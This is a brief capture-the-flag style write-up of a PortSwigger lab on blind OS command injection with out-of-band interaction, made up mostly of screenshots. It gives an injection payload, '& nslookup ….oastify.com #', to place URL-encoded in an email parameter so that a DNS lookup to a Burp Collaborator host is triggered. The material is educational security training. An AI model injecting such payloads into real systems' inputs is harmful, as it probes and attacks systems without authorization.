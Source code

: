 ## Lab Description: Blind OS command injection with out-of-band interaction

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ebaa0fef-61b9-445a-91dc-c84a41b7c992)
 
## Solution:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/028e0ff1-6323-4f8e-ac1c-17f2e6d6d518)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9ed375c7-64af-4454-905f-22f0481bd921)


Copy the collaborator server link - `& nslookup v51yzmjhb2rq05hymmqsvpa9g0mraiy7.oastify.com #`

Paste the payload `& nslookup v51yzmjhb2rq05hymmqsvpa9g0mraiy7.oastify.com #` (URL - encode ) in the email parameter .

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c1d00a38-30bf-42d3-88a7-e4fed1ae9e10)

After URL Encoding 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8fbf5538-24fb-4d13-af78-2859d0ba1732)

Now click SEND button, click POLL NOW button in burp collaborator` ,

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/15dca145-f198-47f9-9118-cc3e22734f02)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f1913cba-b8eb-4b7c-9537-067036f2b370)

